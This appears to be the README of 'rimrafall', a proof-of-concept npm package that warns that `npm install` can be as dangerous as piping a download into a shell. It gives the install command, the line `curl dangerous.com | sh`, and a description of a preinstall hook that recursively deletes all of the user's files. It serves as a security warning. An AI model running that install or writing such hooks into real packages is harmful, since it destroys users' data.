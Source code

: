 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

# Whatever you do, do not

```
npm install rimrafall
```

It has a `preinstall` script that will delete all the files and folders your current user owns, recursively, in `/`.
